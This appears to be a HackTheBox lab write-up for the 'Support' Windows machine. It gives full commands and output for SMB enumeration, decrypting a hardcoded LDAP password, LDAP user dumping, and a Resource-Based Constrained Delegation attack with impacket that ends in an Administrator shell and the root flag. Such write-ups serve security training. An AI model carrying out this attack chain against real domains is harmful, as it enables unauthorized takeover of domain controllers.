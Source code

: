 ```yaml
---
title: "Support"
date: 2025-06-20
categories:
  - HackTheBox
  - Active Directory
  - Windows
tags:
  - HackTheBox
  - Active Directory
---
```


# Support

![](assets/Pasted%20image%2020250510164728.png)
<!-- more -->

## Enumeration

```bash
$ nmap -sC -sV -Pn -T4 --min-rate 5000 -p- 10.10.11.174
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-26 17:48 CET
Nmap scan report for 10.10.11.174
Host is up (0.040s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-26 16:48:53Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         Microsoft Windows RPC
49699/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 2s
| smb2-time: 
|   date: 2024-11-26T16:49:45
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 122.46 seconds
```

We have `smb` shares

```bash
$ smbclient -U "" -L //10.10.11.174   
Password for [WORKGROUP\]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        support-tools   Disk      support staff tools
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.174 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
                                                                                                            
$ smbclient -U "" //10.10.11.174/support-tools  
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 20 19:01:06 2022
  ..                                  D        0  Sat May 28 13:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 13:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 13:19:55 2022
  putty.exe                           A  1273576  Sat May 28 13:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 13:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 19:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 13:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 13:19:43 2022

                4026367 blocks of size 4096. 971514 blocks available
```

## Initial Access

`UserInfo.exe` seems like an internal program, let's see its interior with `dotPeek`

![](assets/Pasted%20image%2020241126200625.png)

We have an encrypted password and an encoding key, so we have to execute that same function.

```c#
using System;
using System.Text;


class Protected
{
    private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
    private static byte[] key = Encoding.ASCII.GetBytes("armando");

    public static string getPassword()
    {
        byte[] numArray = Convert.FromBase64String(Protected.enc_password);
        byte[] bytes = numArray;
        for (int index = 0; index < numArray.Length; ++index)
        bytes[index] = (byte) ((int) numArray[index] ^ (int) Protected.key[index % Protected.key.Length] ^ 223);
        return Encoding.Default.GetString(bytes);
    }
    static void Main()
    {
        Console.WriteLine(getPassword());
    }
}
```

Put it in a `.cs` file in a folder, install `dotnet` if not installed and

```bash
csc program.cs
dotnet run
```

```bash
C:\Users\win\Desktop>dotnet run
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

If we inspect the function where the `ldap` connection is called:

![](assets/Pasted%20image%2020241126223240.png)

The user is `support\ldap`, so we can use `ldapsearch` to enumerate all the users

```bash
$ ldapsearch -x -H ldap://support.htb -D "support\\ldap" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=support,DC=htb" "objectClass=user"
```

Looking at all the users, we see the info field in `support`

```bash
info: Ironside47pleasure40Watchful
```

Now we have `support:Ironside47pleasure40Watchful` so let's try `evil-winrm`

```bash
*Evil-WinRM* PS C:\> whoami                                                                                           support
```

## Privilege Escalation

Enumerating with `bloodhound` we see that our user has `GenericAll` over the `dc` host so we can perform a Resource-Based Constrained Delegation as seen here: [https://github.com/tothi/rbcd-attack](https://github.com/tothi/rbcd-attack)

![](assets/Pasted%20image%2020241127164113.png)


```bash
$ impacket-addcomputer -computer-name 'evilcomputer$' -computer-pass buenas123@ -dc-ip 10.10.11.174 support.htb/support:'Ironside47pleasure40Watchful'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account evilcomputer$ with password buenas123@.


$ python rbcd.py -f evilcomputer -t dc -dc-ip 10.10.11.174 support\\support:Ironside47pleasure40Watchful 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Starting Resource Based Constrained Delegation Attack against dc$
[*] Initializing LDAP connection to 10.10.11.174
[*] Using support\support account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `evilcomputer` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `dc`
[*] Delegation rights modified succesfully!
[*] evilcomputer$ can now impersonate users on dc$ via S4U2Proxy


$ impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.10.11.174 support.htb/evilcomputer$:buenas123@
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
```

Using the ticket, log in to the machine via `psexec`.

```bash
$ KRB5CCNAME=/home/kali/support/Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache  impacket-psexec -k dc.support.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file aqaqcjvd.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service DCKN on dc.support.htb.....
[*] Starting service DCKN.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.
```

## Post Exploitation

Get the flag

```shell
C:\Windows\system32> type C:\Users\Administrator\desktop\root.txt
833c01f16a54a30451cbf1250366ba41
```

